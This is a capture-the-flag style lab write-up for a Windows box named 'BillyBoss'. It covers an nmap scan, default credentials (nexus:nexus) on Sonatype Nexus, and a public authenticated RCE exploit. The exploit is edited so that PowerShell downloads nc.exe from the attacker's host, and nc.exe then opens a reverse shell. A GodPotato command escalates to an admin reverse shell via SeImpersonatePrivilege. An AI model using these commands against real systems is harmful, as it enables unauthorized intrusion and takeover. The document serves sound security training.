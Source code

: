 # BillyBoss

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.61 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:35 +08
Nmap scan report for 192.168.175.61
Host is up (0.17s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8081/tcp  open  blackice-icecap
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

To avoid making this long:

* FTP was not interesting because anonymous access isn't allowed and guessing credentials is pointless.
* Port 80 had some application that wasn't working properly.
* SMB did not accept null credentials and had nothing there.
* The rest of the ports were pretty useless.

### Default Creds --> Nexus RCE

Port 8081 had a Nexus Repository Manager that was running:

<figure><img src="../../../.gitbook/assets/image (2141).png" alt=""><figcaption></figcaption></figure>

To exploit this, we first need to guess the credentials to login. `nexus:nexus` works for this one. Then, we need to grab the correct exploit:

```
$ searchsploit sonatype     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- ---------------------------------
```

Edit the exploit accordingly:

```
URL='http://192.168.175.61:8081'
CMD='cmd.exe /c powershell -c wget 192.168.45.164/nc64.exe -Outfile C:/Windows/Tasks/nc.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

Then, we can

Then, we can execute the script once to download `nc.exe` onto the machine, and another to execute `nc.exe` to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (2904).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersonatePrivilege --> Admin Shell

The user has `SeImpersonatePrivilege` enabled:

```
C:\Windows\Tasks>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

However, `PrintSpoofer.exe` wasn't working normally, so we probably need to use another method. Instead, we can use `GodPotato.exe` to do this:

{% embed url="https://github.com/BeichenDream/GodPotato/releases" %}

```
.\potato.exe -cmd "C:\Windows\Tasks\nc.exe 192.168.45.164 4444 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>

For some reason, this user was unable to run `whoami`, so I just captured the flag instead:

![](<../../../.gitbook/assets/image (3198).png>)
